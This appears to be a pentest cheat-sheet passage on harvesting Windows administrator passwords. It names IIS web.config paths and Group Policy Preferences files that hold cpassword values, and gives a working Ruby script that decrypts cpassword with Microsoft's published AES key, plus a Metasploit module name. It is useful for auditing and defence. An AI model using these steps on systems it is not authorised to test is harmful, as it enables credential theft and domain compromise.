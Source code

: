 ### IIS Servers
* If the system is running an IIS web server the web.config file should be checked as it might contain the administrator password in plaintext.
* These are located at:
  ```
  C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config
  C:\inetpub\wwwroot\web.config
  ```

### Group Policy Preferences
* Local administrators passwords can also retrieved via the Group Policy Preferences. The Groups.xml file which contains the password is cached locally or it can be obtained from the domain controller as every domain user has read access to this file. The password is in an encrypted form but Microsoft has published the key and it can be decrypted.
  ```
  C:\ProgramData\Microsoft\Group Policy\History\????\Machine\Preferences\Groups\Groups.xml
  \\????\SYSVOL\\Policies\????\MACHINE\Preferences\Groups\Groups.xml
  ```

* The `cpassword` attribute can be found in other policy preference files as well such as:
```
Services\Services.xml
ScheduledTasks\ScheduledTasks.xml
Printers\Printers.xml
Drives\Drives.xml
DataSources\DataSources.xml
```

* [Decryption of cpassword](https://pentestlab.blog/2017/03/20/group-policy-preferences/) can be done in a number of ways:
- Using [gp3finder](www.sec-1.com/blog/wp-content/uploads/2015/05/gp3finder_v4.0.zip)
- Using the following ruby script:

  ```ruby
  require 'rubygems'
  require 'openssl'
  require 'base64'

  encrypted_data = "j1Uyj3Vx8TY9LtLZil2uAuZkFQA/4latT76ZwgdHdhw"

  def decrypt(encrypted_data)
  padding = "=" * (4 - (encrypted_data.length % 4))
  epassword = "#{encrypted_data}#{padding}"
  decoded = Base64.decode64(epassword)

  key = "\x4e\x99\x06\xe8\xfc\xb6\x6c\xc9\xfa\xf4\x93\x10\x62\
  x0f\xfe\xe8\xf4\x96\xe8\x06\xcc\x05\x79\x90\x20\x9b\x09\xa4\
  x33\xb6\x6c\x1b"
  aes = OpenSSL::Cipher::Cipher.new("AES-256-CBC")
  aes.decrypt
  aes.key = key
  plaintext = aes.update(decoded)
  plaintext << aes.final
  pass = plaintext.unpack('v*').pack('C*') # UNICODE conversion

  return pass
  end

  blah = decrypt(encrypted_data)
  puts blah
  ```
- Metasploit  
  ```
  > post/windows/gather/credentials/gpp
  ```